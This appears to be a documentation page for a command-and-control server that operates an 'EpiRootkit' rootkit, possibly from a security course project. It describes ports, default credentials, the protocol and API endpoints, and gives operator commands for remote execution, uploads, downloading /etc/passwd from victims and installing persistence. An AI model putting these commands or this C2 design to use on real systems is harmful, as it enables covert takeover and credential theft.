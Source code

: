 ```yaml
---
title: "Overview"
description: "C2 server architecture and capabilities"
icon: "dashboard"
date: "2025-05-25T00:00:00+01:00"
lastmod: "2025-05-25T16:00:00+01:00"
draft: false
toc: true
weight: 301
---
```


# Attacking Program Overview

Professional C2 (Command & Control) server for managing EpiRootkit connections.

## Quick Start

```bash
cd attacking_program
pnpm install
pnpm start
```

**Ports:**
- C2 Server: `4444`
- Web Interface: `3000`

## Architecture

### Components
- **CLI Interface**: Vorpal.js interactive command system
- **C2 Server**: TCP server for rootkit connections (port 4444)
- **Web Interface**: Express.js + Socket.IO REST API (port 3000)
- **Client Manager**: Connection lifecycle and authentication
- **Event System**: Real-time logging and notifications

### Technology Stack
- **Runtime**: Node.js 18+ with pnpm
- **CLI**: Vorpal.js for commands
- **Web**: Express.js + Socket.IO
- **Encryption**: XOR cipher (optional)

## Core Features

### Client Management
```bash
ls                          # List connected clients
auth Client-1 password      # Authenticate with client
status Client-1             # Get rootkit status
keepalive Client-1          # Check connection health
```

### Remote Operations
```bash
exec Client-1 whoami                       # Execute commands
upload Client-1 ./file.txt /tmp/file.txt   # Upload files
download Client-1 /etc/passwd ./passwd     # Download files
```

### Configuration
```bash
config Client-1             # Interactive configuration
persist Client-1 install    # Manage persistence
```

## Authentication

### SHA-512 Password System
1. C2 sends plaintext password
2. Rootkit hashes and compares
3. Session established (1-hour timeout)
4. Rate limiting: 5 attempts/60 seconds

**Default Credentials:**
- Password: `password`
- Hash: `b109f3bbbc244eb82441917ed06d618b9008dd09b3befd1b5e07394c706a8bb980b1d7785e5976ec049b46df5f1326af5a2ea6d103fd07c95385ffab0cacbc86`

## Configuration

### Environment Settings
```bash
C2_PORT=4444               # C2 server port
WEB_PORT=3000              # Web interface port
ENCRYPTION_KEY=secret32hex  # 32-character hex key
ENABLE_ENCRYPTION=true     # XOR encryption toggle
PASSWORD_HASH=hash         # SHA-512 password hash
```

## Security Features

- **Authentication**: SHA-512 with brute force protection
- **Encryption**: Optional XOR cipher for traffic obfuscation  
- **Session Management**: Automatic timeout and cleanup
- **Access Control**: Commands require authentication
- **Health Monitoring**: Automatic stale client detection

## Network Protocol

### Command Format
```json
{
  "type": "command",
  "command": "exec",
  "data": "whoami"
}
```

### Response Format
```json
{
  "type": "response", 
  "success": true,
  "data": "root"
}
```

## Web Interface

### Features
- **Dashboard**: Client overview and status
- **Terminal**: Interactive command execution
- **File Transfer**: Upload/download with drag-drop
- **Configuration**: Toggle rootkit settings
- **Logs**: Real-time event monitoring

### API Endpoints
- `GET /api/clients` - List clients
- `POST /api/auth` - Authenticate client
- `POST /api/command` - Execute command
- `POST /api/upload` - Upload file
- `GET /api/download` - Download file